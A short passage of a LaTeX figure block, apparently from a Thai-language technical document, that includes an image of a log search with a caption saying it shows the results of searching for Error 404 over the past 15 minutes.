	
\includegraphics[width=0.8\columnwidth]{404errorlog.png}
	\caption{ผลลัพธ์เมื่อค้นหา Error 404 ในช่วงเวลา 15 นาทีที่ผ่านมา}
	\label{Fig:404errorlog.png}
\end{figure}
